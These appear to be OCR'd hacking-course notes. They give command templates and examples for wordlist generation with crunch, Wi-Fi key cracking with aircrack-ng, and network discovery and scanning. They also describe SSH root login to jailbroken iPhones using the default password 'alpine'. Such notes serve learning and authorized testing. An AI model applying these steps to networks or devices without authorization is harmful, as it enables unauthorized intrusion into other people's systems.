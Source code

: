 ## Creating a wordlist
we need a list of all the possible passwords, you can create them yourself
```
> crunch [min] [max] [characters=lower|upper|numbers|symbols] -t [pattern] -o file

Example: 

> crunch 6 8 123456!"£$% -o wordlist -t a@@@@b
```

Use aircrack to crack the key

```
> aircrack-ng [HANDSHAKE FILE] -w [WORDLIST] [INTERFACE]

Example:

> aircrack-ng is-01.cap -w list mon0
```

# POST CONNECTION ATTACKS (TOT HIER OPMAAK)

### NETDISCOVER
Discover the connected clients of the current network
```
> netdiscover -i [INTERFACE] -r [RANGE]

Example: 

> netdiscover -i wlan0 -r 192.168.1.1/24
```

### AUTOSCAN

Program installed in Kali Linux.

### NMAP

`>zenmap`

ping scan (basic)
quick scan (shows open port numbers)
quick scan plus (shows running programs on open ports)
```
	If there is an Apple iPhone or iPad with port SSH open, you can login with 
	>ssh root@[ip address of device]
	passord: alpine
```

## MAN IN THE MIDDLE ATTACKS

All arp requests/responses are trusted between client and router.
